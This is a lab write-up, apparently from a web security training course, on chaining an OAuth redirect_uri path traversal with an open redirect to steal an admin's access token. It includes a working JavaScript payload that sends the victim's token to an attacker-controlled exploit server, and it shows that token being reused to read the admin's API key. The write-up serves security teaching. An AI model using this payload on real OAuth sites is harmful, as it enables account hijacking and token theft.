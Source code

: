 # Lab: Stealing OAuth access tokens via an open redirect

> Lab Objective: identify an open redirect on the blog website and use this to steal an access token for the admin user's account. Use the access token to obtain the admin's API key and submit the solution using the button provided in the lab banner.

- Login using provided credentials `wiener:peter`, then inspect the login process.

- The Login Process:

  - You access `/my-account`, where you're redirected to `/social-login`, indicating that you'll login with social media.
    ![1st screenshot](./attachments/1.png)
    ![2nd screenshot](./attachments/2.png)
  - The Authorization Request is sent.
    ![3rd screenshot](./attachments/3.png)
  - You're prompted to enter your credentials (`username:password`).
    ![4th screenshot](./attachments/4.png)
  - You're prompted for your consent upon the requested data.
    ![5th screenshot](./attachments/5.png)
  - You're redirected to the callback URL stated in the authorization request.
    ![6th screenshot](./attachments/6.png)
    ![7th screenshot](./attachments/7.png)
  - A POST request sent to `/authenticate`, which will be redirected to `/` indicating your successful login.
    ![8th screenshot](./attachments/8.png)

- There's a request, after the call back request, retrieving the user data.
  ![9th screenshot](./attachments/9.png)

- Send the authorization request to the repeater, you'll notice that application checks the URL in the `redirect_uri` parameter:

  - In case of not matching:
    ![10th screenshot](./attachments/10.png)
  - In case of matching:
    ![11th screenshot](./attachments/11.png)

- But it allows for path traversal (allowing `../../`).
  ![12th screenshot](./attachments/12.png)

- Logout then login again, but intercept the authorization request and adding `../../post?postId=9` to the `redirect_uri` parameter.
  ![13th screenshot](./attachments/13.png)

- Forward the remaining requests, and you'll notice that you're redirected to `post?postId=9` endpoint instead of the URL stated in the `redirect_uri` parameter.
  ![14th screenshot](./attachments/14.png)

- View any product page, you'll notice that there's a next post option, redirecting you to the next post.
  ![15th screenshot](./attachments/15.png)
  ![16th screenshot](./attachments/16.png)

- Intercept the request made by next post option, and replace the path with Burp Collaborator URL.
  ![17th screenshot](./attachments/17.png)

- And you'll notice that a request is made to Burp Collaborator.
  ![18th screenshot](./attachments/18.png)
  ![19th screenshot](./attachments/19.png)

- Indicating that this endpoint is vulnerable to open redirect.

- Therefore, in order to chain the two issues:
- Intercept the authorization request and add `../post/next?path=https://exploit-0a09002003ea613c81a047ef01cc00fd.exploit-server.net/?key=accessed` the `redirect_uri` parameter.
  ![20th screenshot](./attachments/20.png)

- View the logs of your exploit server, and notice that the `?key=accessed` is present, therefore I was able to chain the two issues successfully.
  ![21th screenshot](./attachments/21.png)

- Therefore, in order to exploit both issues, use the following payload in your exploit server:

```html
<script>
  if (!document.location.hash) {
    window.location =
      "https://oauth-0ae400f603ee617381b946b702ff0031.oauth-server.net/auth?client_id=b63coyob7kjzobzp67qt5&redirect_uri=https://0a1f00c3037e61af817b482d007a00e4.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0a09002003ea613c81a047ef01cc00fd.exploit-server.net/exploit?key=accessed&response_type=token&nonce=-1921948377&scope=openid%20profile%20email";
  } else {
    window.location = "/?key=hacked&" + document.location.hash.substr(1);
  }
</script>
```

- Deliver the exploit to victim, and you'll notice that the attack has succeeded.
  ![22th screenshot](./attachments/22.png)

- Copy the access token, then view the `/me` endpoint where you retrieve the user data based on the token in the authorization header.

- Replace the existing token (which is mine), with the hijacked token, and send the request:
  ![23th screenshot](./attachments/23.png)

- Submit the API Key.
  ![24th screenshot](./attachments/24.png)

- And the lab is solved successfully.
  ![25th screenshot](./attachments/25.png)

---
